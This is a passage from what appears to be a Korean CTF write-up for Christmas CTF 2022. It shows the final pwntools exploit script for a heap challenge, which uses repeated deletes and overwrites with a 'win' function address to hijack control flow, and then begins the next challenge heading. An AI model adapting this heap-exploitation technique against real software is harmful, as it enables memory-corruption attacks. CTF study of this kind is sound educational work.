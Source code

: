 ```python
def add(data):
    sla("> ", "1")
    sla("> ", data)

def delete(idx):
    sla("> ", "3")
    sla("> ", str(idx))
    sla(">", "y")

win = 0x4034DA

add(p64(0)+p64(0x407000)+p64(0x407000+0x20))
add(b"a"*0x18)
sla("> ", "2")
sla("Your Name", b"\x00"*0x10)

delete(3)
delete(3)
delete(2)

add(p64(win)*3)
add(p64(0x407010)*3)

sla("> ", "3")
sla("> ", "-1")

r.interactive()
```

최종 익스플로잇은 위와 같다.

<br><br><br>

# V - santa’s sack

![Untitled](../files/christmas%20ctf%202022%205793e210ad10417bab0c141efed21db1/Untitled%2035.png)
